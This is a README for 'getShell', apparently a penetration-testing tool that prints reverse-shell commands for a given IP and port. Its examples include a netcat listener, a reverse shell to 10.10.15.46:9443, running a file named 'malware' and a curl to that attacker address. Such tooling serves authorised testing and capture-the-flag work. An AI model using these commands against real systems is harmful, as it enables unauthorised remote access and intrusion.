



# getShell #

**getShell** is a script that helps you when you need to execute code during a pentesting. Its main function is, given an IP and a port, to display various commands that, once executed on the victim machine, will establish a reverse connection to that IP/port. This function is also available with commands: If, instead of specifying an IP and a port, you give it a system command, it will display it in various languages.
## Options ##
```
                 __    _________/\            __   __   
   ____   ____ _/  |_ /   _____/  |__   ____ |  | |  |  
  / ___\_/ __ \\   __\\_____  \|  |  \_/ __ \|  | |  |  
 / /_/  \  ___/_|  |  /        \      \  ___/_  |__  |__
 \___  / \___  /|__| /_______  /___|  /\___  /____/____/
/_____/      \/              \/     \/     \/           

	Version: 1.0.2 		Author: focab0r


	Usage:  getShell -i [IP] [PORT]
		getShell [COMMAND]

	OPTIONS:
	  -i   -->  Specify IP and PORT
	  -v   -->  Open a listening port using netcat
	  -t   -->  List interfaces
	  -p   -->  Send a ping to github.com 
	  -x   -->  Update getShell
	  Else -->  Specify a command
		  
	EXAMPLES:
	  getShell -i 10.10.15.46 9443
	  getShell -v 9443
	  getShell cat /tmp/flag.txt
``` 
- `-h`: Display this help and exit.
- `-i`: Allows you to specify an IP and a PORT, and create a reverse Shell in that language.
- `-v`: Launch the command `nc -nlvp $PORT`, waiting for entries.
- `-x`: Update the script from GitHub
- `ELSE`: If no option is detected, it will assume it is a command, and will display the execution of it in various languages.

## Plus ##
As I have been using the tool, I have added different utilities, that, although they are not related to the main function of **getShell**, save some time.
- `-t`: Show the networks interfaces with the IP (not including docker)
- `-p`: Send a ping request to github, and print if there is an Internet connection

## Examples ##

If you want to create a reverse shell to `10.10.15.46:9443`, you can use this command:
```
$ getShell -i 10.10.15.46 9443
```


Or, if you want to execute the code: `chmod 777 malware; ./malware`, you can use this one:
```
$ getShell "chmod 777 malware; ./malware"
```


Now, you can copy any of them, and paste it on the vulnerable machine.

The other options can be seen below:



## Installation ##
```
$ curl https://raw.githubusercontent.com/focab0r/getShell/main/getShell > getShell

$ sudo mv getShell /usr/local/bin

$ sudo chmod 755 /usr/local/bin/getShell
```

## Warnings ##
- When adding a command as a parameter, remember to use `"` if the command contains `|`,`&` or `;`. Otherwise it is not necessary.
```
$ getShell "id; whoami"

$ getShell curl http://10.10.15.46:9443
```

## Bugs and improvements ##
You are welcome to add bugs and improvements through the "Issues" tab. I will be adding more languages as I have more time.

## References ##
Some parts of the code are from [GTFOBins](https://gtfobins.github.io/) and [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings).
